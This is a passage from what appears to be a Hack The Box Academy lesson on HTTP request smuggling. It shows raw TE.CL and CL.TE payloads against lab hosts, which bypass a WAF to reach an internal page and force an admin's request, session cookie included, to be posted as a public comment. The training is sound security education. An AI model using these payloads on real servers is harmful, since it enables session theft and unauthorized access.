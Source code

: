 While a payload for a TE.CL vulnerability could look similar to this:

```http
GET / HTTP/1.1
Host: vuln.htb
Content-Length: 4
Transfer-Encoding: chunked

35
GET /internal/index.php HTTP/1.1
Host: localhost

0

```

Since the malicious request is smuggled in the request body, the WAF never treats it as part of the query string and thus does not consider it. However, the web server treats it as a regular HTTP request and thus serves a response. This discrepancy allows bypasses of WAFs and other security controls.

* * *

## Stealing User Data

In the previous sections about CL.TE vulnerabilities, we forced the admin user to promote our user to the admin role. We have thus already seen how to exploit request smuggling vulnerabilities to force authenticated users to perform actions in the web application by influencing the parameters of other users' requests. Additionally, we can steal other users' information by forcing them to submit their request parameters to a location we can later access.

Let's have a look at a practical example. For this, our lab was extended with the functionality to post comments which are then displayed publicly:

![](https://academy.hackthebox.com/storage/modules/191/req_smuggling/stealingdata_1.png)

Looking at the traffic in Burp, the request to post a comment looks like this:

```http
POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Length: 43
Content-Type: application/x-www-form-urlencoded

name=htb-stdnt&comment=Hello+World%21

```

We can use the process discussed in the previous sections to determine that the lab is vulnerable to a `CL.TE` request smuggling vulnerability. The lab also contains an admin section that we are unauthorized to access. Let's steal the admin user's session cookie by exploiting the CL.TE vulnerability to obtain access. We can achieve this by forcing the admin user to post their request as a comment in the comment section with the following request:

```http
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

```
